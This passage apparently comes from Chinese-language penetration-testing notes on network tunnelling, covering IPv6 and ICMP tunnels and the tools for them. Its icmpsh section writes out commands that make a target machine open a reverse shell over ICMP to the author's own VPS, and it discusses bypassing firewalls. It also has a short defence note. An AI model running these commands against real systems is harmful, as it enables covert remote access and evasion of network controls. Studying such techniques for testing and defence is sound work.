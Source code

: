 ```bash
curl www.baidu.com    # 不通
curl -x proxy-ip:port  www.baidu.com    # 通
```



## <font color=red> 网络层隧道技术</font>
- IPv6隧道
- ICMP隧道
  
#### IPv6隧道
常见工具：`socat`,`6tunnel`,`nt6tunnel`等

概念：通过IPv6隧道传送IPv6数据报文(把IPv6报文整体封装在IPv4数据报文中，使得IPv6报文穿过IPv4海洋，到达另一个IPv6小岛)的技术

现阶段的边界设备、防火墙甚至入侵防御系统还无法识别IPv6的通信数据，而大多数的操作系统支持IPv6，所有需要手动配置(win的网络属性中)
Note：即使设备支持IPv6，也可能无法正确分析封装了IPv6报文的IPv4数据包

**配置隧道与自动隧道的区别：**
只有在执行隧道功能的节点的IPv6地址是兼容IPv4地址时，自动隧道才是可行的。在为执行隧道功能的节点分配ip地址时，如果采用的是自动隧道方法，就不需要进行设置。
配置隧道方法则要求隧道末端节点使用其他机制来获得其IPv4地址，例如：DHCP/人工配置或其他IPv4的配置机制


**防御：**
了解IPv6的具体漏洞，结合其他协议，通过防火墙和深度防御系统过滤IPv6通信


#### ICMP隧道
常见工具：`icmpsh`,`PingTunnel`,`icmptunnel`,`powershell icmp`等

比较特殊的协议，`不用开放端口`，最常见的ICMP消息为ping命令的回复。
将TCP/UDP数据包封装到ICMP的ping数据包中，从而穿过防火墙。

###### 工具
**1.icmpsh**
```bash
# 不需要管理员权限
# 简单，不存在正向反向
# 下载地址: https://github.com/inquisb/icmpsh
# 本机和目标都要安装
# 安装依赖库
apt-get install python-impacket


### 使用
# 我机器执行
# 先关闭本地系统的icmp应答(恢复改为0就行) -> 否则会无限刷屏
sysctl -w net.ipv4.icmp_echo_ignore_all=1

./run.sh  # 输入目标的公网ip  （此文件好像不对，用下面的py文件吧）
# 或者
./icmpsh_m.py IP(公网) IP(内网的公网ip)    # 这个的公网ip获取方法：ping外面，在外面抓包获取数据包的源地址 / 访问外面的地址然后查看网站访问日志等

# 目标机器执行（这里使用的win版本）
icmp.exe -t 192.168.1.7 -d 500 -b 30 -s 128  # 192.168.1.7我的vps

# 我的vps就会接收到反弹过来的shell
```
